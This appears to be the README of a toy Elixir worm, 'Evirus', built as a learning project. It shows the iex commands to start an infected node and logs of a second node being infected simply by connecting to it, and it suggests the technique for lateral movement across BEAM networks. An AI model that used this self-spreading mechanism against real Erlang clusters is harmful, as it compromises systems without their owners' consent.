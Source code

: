 # Evirus

Toy virus written in elixir for a learning experience to infect any node that the
system can connect to.




## Running

Start the infected node.

\# iex --sname somenode --cookie "HELLO" -S mix
Erlang/OTP 25 [erts-13.1.3] [source] [64-bit] [smp:8:8] [ds:8:8:10] [async-threads:1] [jit]

Interactive Elixir (1.14.3) - press Ctrl+C to exit (type h() ENTER for help)

iex(somenode@Fedora-37)1> Evirus.start

12:49:45.377 [info] in spawn_process

12:49:45.382 [info] spawning...

12:49:45.382 [info] Registering name...

12:49:45.382 [info] Logging all nodes.....

12:49:45.382 [info] YOU ARE INFESTED

12:49:45.382 [info] VIRUS LOOP
#PID<0.157.0>

....

And from another node..

\# iex --sname anothernode --cookie "HELLO" -S mix 

This could be any node, erlang beam, etc.

iex(anothernode@Fedora-37)1> Node.ping(:"somenode@Fedora-37")


Then this node (anothernode) is now infected.

...

12:52:01.929 [info] in spawn_process
 
12:52:01.933 [info] spawning...

12:52:01.933 [info] Registering name...

12:52:01.933 [info] Logging all nodes.....

12:52:01.933 [info] YOU ARE INFESTED

12:52:01.933 [info] VIRUS LOOP

...


While there isnt a 'payload' on this infection, it might be a good method to move laterally across different systems in the BEAM network.






